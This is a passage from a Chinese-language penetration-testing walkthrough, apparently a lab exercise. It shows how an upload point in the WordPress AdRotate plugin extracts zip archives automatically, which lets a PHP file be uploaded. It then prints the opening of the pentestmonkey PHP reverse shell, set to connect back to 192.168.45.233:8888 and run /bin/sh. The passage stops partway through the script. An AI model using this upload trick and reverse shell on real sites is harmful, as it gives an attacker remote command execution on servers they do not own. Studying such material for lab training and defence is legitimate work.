接着使用用户名和密码进入后台
![[QQ_1724112490351.png]]

在 Adrotate 插件中发现上传点
![[QQ_1724112847607.png]]

它并不接收 `PHP` 文件，但是注意下面的提示
```
Zip files are automatically extracted in the location where they are uploaded and the original zip file will be deleted once extracted.
```
这段英文的意思是上传 zip 文件后，会自动解压，并删除原来的 zip 文件

下面是 `PHP reverse shell`
```
// tmp.php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '192.168.45.233';  // You have changed this
  $port = 8888;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");
```